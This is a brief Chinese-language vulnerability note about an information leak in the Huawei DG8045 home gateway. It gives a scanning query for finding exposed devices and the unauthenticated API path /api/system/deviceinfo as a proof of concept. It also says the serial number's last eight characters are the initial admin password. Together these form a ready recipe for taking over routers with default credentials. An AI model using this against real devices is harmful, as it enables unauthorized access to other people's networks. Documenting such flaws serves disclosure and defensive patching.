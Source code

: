 # Huawei DG8045 deviceinfo 信息泄漏漏洞

## 漏洞描述

Huawei DG8045 deviceinfo api接口存在信息泄漏漏洞，攻击者通过泄漏的信息可以获得账号密码登录后台

## 漏洞影响

```
Huawei DG8045
```

## 网络测绘

```
app="DG8045-Home-Gateway-DG8045"
```

## 漏洞复现

登录页面

![image-20220519181753641](./images/202205191817718.png)

验证POC

```
/api/system/deviceinfo
```

![image-20220519181803482](./images/202205191818539.png)

SerialNumber 后8位即为初始密码